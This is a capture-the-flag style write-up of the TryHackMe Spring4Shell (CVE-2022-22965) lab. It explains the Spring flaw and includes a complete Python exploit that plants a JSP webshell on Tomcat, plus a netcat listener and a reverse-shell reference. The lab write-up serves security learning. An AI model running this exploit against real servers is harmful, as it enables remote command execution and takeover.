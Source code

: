 ```yaml
---
description: Exploiting the Java Spring Framework - https://tryhackme.com/room/spring4shell
---
```


# Spring4Shell: CVE-2022-22965

![](<../../../.gitbook/assets/image (26) (1) (1).png>)

## Background

In late March 2022, two remote command execution vulnerabilities in the Java [Spring framework](https://spring.io) were made public. The first of these vulnerabilities affects a component of the framework called "Spring Cloud Functions". The second, arguably more serious vulnerability, affects a component in  "Spring Core" —  the heart of the framework — thus significantly increasing the vulnerability's potential impact and earning it the name "Spring4Shell" (a play on [Log4Shell](https://tryhackme.com/room/solar), the name of a brutal vulnerability disclosed at the end of 2021).

Spring4Shell was originally released as an 0-day in a now-deleted thread of Tweets. It was quickly identified as a bypass of the patch for [CVE-2010-1622](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-1622) — a vulnerability in earlier versions of the Spring Framework which allowed attackers to obtain remote command execution by abusing the way in which Spring handles data sent in HTTP requests. In short, the vulnerability allows attackers to upload a "webshell" (a piece of code which accepts commands from the attacker that the webserver is then tricked into executing) to the vulnerable server, achieving remote command execution.\


## How does it work?

To understand Spring4Shell, it is important that we understand CVE-2010-1622. Spring MVC (**M**odel-**V**iew-**C**ontroller) is part of the Spring Framework which makes it easy to develop web applications following the MVC design pattern. One of the features of Spring MVC is that it automatically instantiates and populates an object of a specified class when a request is made based on the parameters sent to the endpoint. In simple terms, this could be abused to overwrite important attributes of the parent class, resulting in remote code execution.

Spring4Shell works along similar lines, bypassing the mitigations that were added to patch CVE-2010-1622. The majority of the exploits for the Spring4Shell vulnerability operate by forcing the application to write a malicious `.jsp` file (effectively plaintext Java which Tomcat can execute — much like a PHP webserver would execute files with a `.php` extension) to the webserver. This webshell can then be executed to gain remote command execution over the target.\


Fortunately, despite how commonly used the Spring Framework is, the conditions in which the vulnerability can be exploited are actually fairly limited.\


## Limitations

The Spring4Shell vulnerability affects Spring Core before version 5.2, as well as in versions 5.3.0-17 and 5.2.0-19, running on a version of the **J**ava **D**evelopment **K**it (JDK) greater than or equal to 9. The publicly available exploits currently available only work on applications deployed to Apache Tomcat as WARs; however, the Spring Framework maintainers have stated that they believe there may be other ways to exploit the vulnerability.

Current conditions for vulnerability (as stated in [Spring's announcement of the vulnerability](https://spring.io/blog/2022/03/31/spring-framework-rce-early-announcement)) can be summarised as follows:

* JDK 9+
* A vulnerable version of the Spring Framework (<5.2 | 5.2.0-19 | 5.3.0-17)\

* Apache Tomcat as a server for the Spring application, packaged as a WAR
* A dependency on the `spring-webmvc` and/or `spring-webflux` components of the Spring Framework\


It is worth noting, however, that these may change over time as other ways to exploit the vulnerability are discovered.

## Exploitation

{% hint style="danger" %}
You should _always_ review unknown exploits before running them.
{% endhint %}

Using this Proof of Concept Python Script:

{% code title="exploit.py" %}
```python
import requests
import argparse
from urllib.parse import urljoin

def exploit(url, filename, password, directory):
    headers = {"suffix":"%><!--//",
                "c1":"Runtime",
                "c2":"<%",
                "DNT":"1",
                "Content-Type":"application/x-www-form-urlencoded"
    }

    data = f"class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22{password}%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/{directory}&class.module.classLoader.resources.context.parent.pipeline.first.prefix={filename}&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat="


    try:
        requests.post(url,headers=headers,data=data,timeout=15,allow_redirects=False, verify=False)
        shellurl = urljoin(url, f"{filename}.jsp")
        shellgo = requests.get(shellurl,timeout=15,allow_redirects=False, verify=False)
        if shellgo.status_code == 200:
            print(f"Shell Uploaded Successfully!\nYour shell can be found at: {shellurl}?pwd={password}&cmd=whoami")
        else:
            print("Exploit failed to upload")
    except Exception as e:
        print(e)
        pass




if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Spring4Shell RCE Proof of Concept')
    parser.add_argument('url', help='Target URL')
    parser.add_argument("-f","--filename", help="Name of the file to upload (Default tomcatwar.jsp)", default="tomcatwar.jsp")
    parser.add_argument("-p","--password", help="Password to protect the shell with (Default: thm)", default="thm")
    parser.add_argument("-d","--directory", help="The upload path for the file (Default: ROOT)", default="ROOT")
    args = parser.parse_args()
    exploit(args.url, args.filename.split(".")[0], args.password, args.directory)
```
{% endcode %}

We can attack a vulnerable web server

![](<../../../.gitbook/assets/image (12) (1).png>)

Lets look at the source code `ctrl + u`

```html
<!DOCTYPE HTML>
<html>
    <head> 
        <title>Vulnerable</title>
        <meta charset="utf-8" />
        <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no" />
        <script src="/assets/js/font-awesome.js"></script>
        <link rel="icon" type="image/png" href="/assets/favicon.png" />
        <link href="/assets/css/styles.css" rel="stylesheet" />
    </head>
    <body>
        <!-- Masthead-->
        <div class="masthead">
            <div class="masthead-content text-white">
                <div class="container-fluid px-4 px-lg-0">
                    <h1 class="fst-italic lh-1 mb-4">Our Website is Coming Soon</h1>
                    <p class="mb-5">We're working hard to finish the development of this site. Sign up below to receive updates and to be notified when we launch!</p>
                    <form id="contactForm" action="/" method="post">
                        <!-- Email address input-->
                        <div class="row input-group-newsletter">
                            <div class="col"><input class="form-control" required type="email" placeholder="Enter email address..." aria-label="Enter email address..." id="email" name="email" value="" /></div>
                            <div class="col-auto"><button class="btn btn-primary" id="submitButton" type="submit">Notify Me!</button></div>
                        </div>
                    </form>
                </div>
            </div>
        </div>
        <div class="social-icons">
            <div class="d-flex flex-row flex-lg-column justify-content-center align-items-center h-100 mt-3 mt-lg-0">
                <a class="btn btn-dark m-3" target="_blank" href="https://twitter.com/MuirlandOracle"><i class="fab fa-twitter"></i></a>
                <a class="btn btn-dark m-3" target="_blank" href="https://github.com/MuirlandOracle"><i class="fab fa-github"></i></a>
                <a class="btn btn-dark m-3" target="_blank" href="https://www.linkedin.com/in/agcyber/"><i class="fab fa-linkedin"></i></a>
            </div>
        </div>
        <!-- Bootstrap core JS-->
        <script src="/assets/js/bootstrap.bundle.min.js"></script>
    </body>
</html>
```

Specifically we are looking for the "action" of the contact form (the only POST request available to us). This is found on line 18:

`<form id="contactForm" action="/" method="post">`

The action is "`/`", meaning that our target URL will simply be: `http://10.10.151.162/`.

{% hint style="info" %}
_**Note:** the trailing slash is very important here!_
{% endhint %}

## Attack

Lets check the script inputs real quick

![](<../../../.gitbook/assets/image (15) (1) (1).png>)

Looks like running `./exploit.py` [`http://10.10.151.162/`](http://10.10.151.162) should just work

![](<../../../.gitbook/assets/image (6) (1).png>)

And it looks like we have command execution!

![](<../../../.gitbook/assets/image (25) (1) (1).png>)

We are definately root!

![](<../../../.gitbook/assets/image (7) (1).png>)

Lets get a real shell now so we want to get burpsuite open and prepare our shell on our attackbox

On our attack box I am running `nc -lvnp 9001`

![](<../../../.gitbook/assets/image (9) (1).png>)

Time to capture the id request in burp

First enable burp in foxy proxy

![](<../../../.gitbook/assets/image (2) (1).png>)

Then we want to send the request we captured in burp to repeater

![](<../../../.gitbook/assets/image (18) (1) (1).png>)

After a few tries I found the box has python3

![](<../../../.gitbook/assets/image (11) (1) (1).png>)

On our web shell we are going to run a python reverse shell from Pentestmonkey

{% embed url="https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet" %}

At this point I was having issues with bad characters and getting a reverse/bind shell working. I am not sure if it was a limitation of the environment but I plan on revisiting this.
